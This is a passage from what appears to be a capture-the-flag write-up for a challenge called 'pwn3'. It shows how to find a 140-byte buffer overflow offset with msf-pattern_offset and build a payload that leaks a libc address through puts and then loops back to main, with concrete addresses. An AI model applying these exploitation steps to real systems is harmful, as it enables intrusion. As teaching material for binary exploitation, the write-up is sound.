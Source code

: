 ![hehe segfault ](https://cdn-images-1.medium.com/max/800/1*Tyi4kw7uhbyi2OVBezj1Eg.png)

It seems we have overwritten the saved return address with `0x37654136`. Let’s compute for the offset using `msf-pattern_offset.rb.`

```
root@kali:pwn3# msf-pattern_offset -q 0x37654136  
[*] Exact match at offset 140
```

We got the offset at 140. Our payload template should look like this:

```
payload = [140 bytes buffer] + [addr of next function]
```

Now, let’s inspect the binary with `radare2` and look for useful functions.

![pwn3 functions](https://cdn-images-1.medium.com/max/800/1*t45oDErwakl7W3wY1jmGkA.png)

It seems that there is no `WIN` function or `system()` function on this binary unlike the first three challenges.

Luckily, we have `puts()` function. We can use the puts function to leak a libc address from the remote server.

> Reminder: Remote servers with ASLR enabled give a different LIBC address for each connection. Thus, we need to prevent program termination after the libc leak. We can loop back to the main function after leaking a libc address.

Let’s create a payload that will leak a libc address from the server, and loop back to main().

```
payload = [140 bytes buffer] + [puts()] + [main()] + [puts@got]
```

> Quick note: `puts.got` contains the address of puts@LIBC function

Sample screenshot of getting `puts@got` address:

![`0x80497b0` is the address of puts@got](https://cdn-images-1.medium.com/max/800/1*2tGd-viNpTsuUTvdsyzr8A.png)

The screenshot above shows that the `puts@got` address is `0x80497b0.` We can see that `0x80497b0` contains an address which is `0xf7e2b210`.

`0xf7e2b210` is the address of puts() in the `libc`.

Going back to the payload, let’s replace the template with the following values:

```
gef➤  p main  
$1 = {<text variable, no debug info>} `0x804847d` <main>

puts@plt = `0x8048340`  
puts@got = `0x80497b0`

payload = [140 bytes buffer] + [`0x8048340`] + [`0x0804847d`] + [`0x80497b0`]
```

